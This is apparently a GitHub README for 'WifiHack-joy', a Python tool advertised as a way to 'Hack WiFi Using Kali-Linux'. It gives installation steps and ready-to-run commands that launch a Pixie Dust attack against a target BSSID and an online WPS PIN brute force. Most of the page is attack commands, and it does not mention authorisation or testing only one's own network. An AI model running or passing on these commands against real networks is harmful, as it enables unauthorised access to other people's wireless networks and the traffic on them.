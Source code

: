 ## WifiHack-joy
### Hack WIfi Using Kali-Linux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ apt install -y root-repo
$ apt install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/Joy43/WifiHack-joy.git
$ cd WifiHack-joy
$ chmod +x joy.py
$ sudo python joy.py --help
```
* Run joy.py with python3
    * On kali linux
        ```bash
        python3 joy.py -i wlan0 -K
        ```

#### Example : `python3 joy.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python joy.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python joy.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python joy.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

<div align="center">

<img height="120" alt="Thanks for visiting me" width="100%" src="https://raw.githubusercontent.com/BrunnerLivio/brunnerlivio/master/images/marquee.svg" />

<div/>
